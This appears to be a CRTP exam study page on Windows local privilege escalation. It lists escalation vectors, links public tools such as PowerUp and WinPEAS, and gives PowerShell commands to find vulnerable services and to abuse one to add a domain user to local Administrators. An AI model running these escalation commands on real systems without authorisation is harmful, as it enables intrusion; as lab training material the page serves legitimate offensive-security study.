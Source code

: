 # Local Privilege Escalation

{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

## Vectors

#### There are various ways of locally escalating privileges on Windows box:

* Missing patches – Automated deployment and AutoLogon passwords in clear text
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misconfigured Services – DLL Hijacking and more
* NTLM Relaying a.k.a. Won't Fix

This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-ServiceUnquoted -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose  
```
{% endtab %}
{% endtabs %}
